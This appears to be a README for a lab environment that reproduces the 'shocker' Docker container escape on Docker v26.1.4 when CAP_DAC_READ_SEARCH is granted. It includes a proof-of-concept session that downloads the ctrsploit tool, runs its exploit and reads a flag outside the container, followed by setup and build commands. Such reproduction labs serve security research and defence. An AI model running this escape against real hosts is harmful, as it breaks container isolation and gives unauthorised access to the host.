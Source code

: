 # docker v26.1.4

* dqd:
  * ssst0n3/docker_archive:shocker_docker-v26.1.4 -> ssst0n3/docker_archive:shocker_docker-v26.1.4_v0.1.0
  * ssst0n3/docker_archive:shocker_docker-v26.1.4_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4 -> ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0
  * ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0

## reproduce

There's no shocker vulnerability in docker v26.1.4 , but we can use shocker as an exploit technique when use `--cap-add CAP_DAC_READ_SEARCH`

```shell
root@localhost:~# ./poc.sh 
+ wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O ctrsploit
+ chmod +x ctrsploit
+ docker run -tid --name poc --cap-add CAP_DAC_READ_SEARCH busybox
Unable to find image 'busybox:latest' locally
latest: Pulling from library/busybox
3d1a87f2317d: Pull complete 
Digest: sha256:82742949a3709938cbeb9cec79f5eaf3e48b255389f2dcedf2de29ef96fd841c
Status: Downloaded newer image for busybox:latest
c27f1b82f272b47100ad6d143d7b38dddf4d28f11b960949a7e60a62c2b56eba
+ docker cp ctrsploit poc:/usr/bin/
Successfully copied 10.6MB to poc:/usr/bin/
+ docker attach poc
/ # 
/ # 
/ # ctrsploit checksec shocker
[Y]  shocker	# Container escape with CAP_DAC_READ_SEARCH, alias shocker, found by Sebastian Krahmer (stealth) in 2014.

/ # ctrsploit exploit shocker
/proc/self/fd/7 # cat flag
flag{escaped}
```

## env

```shell
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd vul/shocker/shocker_docker-v26.1.4
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

```shell
root@localhost:~# docker version
Client: Docker Engine - Community
 Version:           26.1.4
 API version:       1.45
 Go version:        go1.21.11
 Git commit:        5650f9b
 Built:             Wed Jun  5 11:28:57 2024
 OS/Arch:           linux/amd64
 Context:           default

Server: Docker Engine - Community
 Engine:
  Version:          26.1.4
  API version:      1.45 (minimum version 1.24)
  Go version:       go1.21.11
  Git commit:       de5c9cf
  Built:            Wed Jun  5 11:28:57 2024
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.6.33
  GitCommit:        d2d58213f83a351ca8f528a95fbd145f5654e957
 runc:
  Version:          1.1.12
  GitCommit:        v1.1.12-0-g51d5e94
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
```

## build

```shell
make all DIR=vul/shocker/shocker_docker-v26.1.4
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0
```